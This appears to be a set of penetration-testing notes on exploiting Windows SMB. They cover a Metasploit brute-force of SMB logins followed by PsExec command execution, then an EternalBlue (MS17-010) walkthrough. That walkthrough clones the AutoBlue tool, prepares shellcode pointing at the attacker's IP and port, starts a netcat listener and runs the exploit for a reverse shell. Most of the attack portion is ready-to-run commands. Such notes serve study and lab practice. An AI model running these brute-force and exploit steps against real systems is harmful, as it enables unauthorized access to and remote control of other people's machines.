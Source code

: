 ## Exploitation

- Identify legitimate user account and their respective passwords or password hashes
- Most common technique will involve performing and SMB login brute-force attack
- We can narrow down our brute-force attack to only include common Windows user account like:
	- Administrator
- Now we can use the credential to authenticate with the target system via PsExec and execute arbitrary system commands or obtain a reverse shell

```shell
nmap -sV -sC <IP>
service postgresql start
msfconsole
	auxiliary(scanner/smb/smb_login)
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_user.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
	set RHOSTS <IP>
	exploit(windows/smb/psexec)
	set SMBUser Administrator
	set SMBPass <PASSWORD>
```

# Windows MS17-010 SMB Vulnerability (EternalBlue)

###### Tool: [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

#### Demo
Manual:
```bash
nmap -sV -p 445 -O <IP>
nmap -sV -p 445 —script=smb-vuln-ms17-010 <ip>
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
pip install -r requirements.txt
cd <path>/AutoBlue-MS17-010/shellcode
chmod +x shell_prep.sh
./shell_prep.sh
	y
	<my-ip>
	<my-port>
	<my-port>
	1
	1
nc -nvlp <my-port> (on new shell)
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py <ip-target> shellcode/sc_x64.bin
```

Automatic:

```bash
search eternalblue (auxiliary and exploit)
```

